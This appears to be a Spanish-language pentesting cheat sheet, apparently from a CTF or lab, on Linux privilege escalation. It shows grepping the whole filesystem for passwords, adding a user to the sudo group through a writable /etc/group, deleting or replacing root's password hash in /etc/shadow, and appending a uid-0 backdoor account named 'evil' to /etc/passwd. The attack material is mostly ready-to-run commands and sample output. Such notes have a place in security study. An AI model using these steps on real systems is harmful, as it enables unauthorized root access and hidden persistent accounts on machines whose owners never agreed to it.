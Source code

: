 grep -Ri "password" / 2>/dev/null

********************************************************

Parte 9.- Permisos de escritura en:

ls -la /etc/group

me conecté por ssh a la víctima con el usuario lancer:

entonces edité el archivo:

nano /etc/group

sudo:x:27:lancer

cerré sesión y volví a conectarme por ssh

hice id 

sudo su

escribí la contraseña de lancer y listo ya soy root

-------------------------------------------------------------------------------

ls -la /etc/shadow - si pertenecemos al grupo shadow

eliminamos desde el $ después de los ":" después de la palabra root hasta antes de los ":"

root:$y$j9T$du9sW7McN8WfjLKPRheP7/$pyE/4IrgDjurpaNzpdyxj8PYcOYyDksyYPG2rxEBxm4:20135:0:99999:7:::


root::20135:0:99999:7:::

ejecutamos su root y no escribimos contraseña

como también podemos crear una contraseña con openssl

openssl passwd password1

copiamos el hash y lo pegamos en el /etc/shadow

-------------------------------------------------------------------------------

Permisos de escritura sobre /etc/passwd

paso 1.- Genera una contraseña encriptada:

openssl passwd -1 "tupassword"

ejemplo de salida

pass_encriptada:

$1$l4NFcLkS$Jsl9./0lGL1coSBrufCyP/

Paso 2: ejecuta nano /etc/passwd

añade la línea

evil:pass_encriptada:0:0:root:/root:/bin/bash

Paso 3: su evil
